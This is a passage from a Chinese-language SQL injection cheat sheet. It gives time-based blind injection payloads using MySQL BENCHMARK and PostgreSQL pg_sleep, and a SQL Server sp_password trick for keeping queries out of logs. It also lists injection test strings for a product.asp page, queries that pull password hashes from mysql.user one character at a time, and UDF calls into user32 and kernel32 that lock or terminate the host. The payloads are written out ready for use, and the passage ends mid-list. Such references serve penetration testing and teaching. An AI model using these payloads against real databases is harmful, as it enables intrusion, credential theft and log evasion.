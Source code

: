 #### BENCHMARK()(M)

一般来说都不太喜欢用这个来做MySQL延时。小心点用因为这会极快地消耗服务器资源。

```
BENCHMARK(howmanytimes, do this)

```

#### 实例

*   俺是root吗？爽！`IF EXISTS (SELECT * FROM users WHERE username = 'root') BENCHMARK(1000000000,MD5(1))`
    
*   判断表是否存在`IF (SELECT * FROM login) BENCHMARK(1000000,MD5(1))`
    

#### pg_sleep(seconds)(P)

睡眠指定秒数。

*   `SELECT pg_sleep(10);`睡个十秒

### 掩盖痕迹

#### -sp_password log bypass(S)

出于安全原因，`SQL Server`不会把含有这一选项的查询日志记录进日志中(!)。所以如果你在查询中添加了这一选项，你的查询就不会出现在数据库日志中，当然，服务器日志还是会有的，所以如果可以的话你可以尝试使用POST方法。

### 0x02 注入测试

这些测试既简单又清晰，适用于盲注和悄悄地搞。

1.  `product.asp?id=4 (SMO)`
    
    1.  `product.asp?id=5-1`
    2.  `product.asp?id=4 OR 1=1`
2.  `product.asp?name=Book`
    
    1.  `product.asp?name=Bo’%2b’ok`
    2.  `product.asp?name=Bo’ || ’ok (OM)`
    3.  `product.asp?name=Book’ OR ‘x’=’x`

### 0x03 一些其他的MySQL笔记

*   子查询只能在MySQL4.1+使用
*   用户
    *   `SELECT User,Password FROM mysql.user;`
*   `SELECT 1,1 UNION SELECT IF(SUBSTRING(Password,1,1)='2',BENCHMARK(100000,SHA1(1)),0) User,Password FROM mysql.user WHERE User = ‘root’;`
*   `SELECT ... INTO DUMPFILE`
    *   把查询写入一个**新文件**中(不能修改已有文件)
*   UDF功能
    *   `create function LockWorkStation returns integer soname 'user32';`
    *   `select LockWorkStation();`
    *   `create function ExitProcess returns integer soname 'kernel32';`
    *   `select exitprocess();`
*   `SELECT USER();`
*   `SELECT password,USER() FROM mysql.user;`
*   admin密码哈希的第一位
    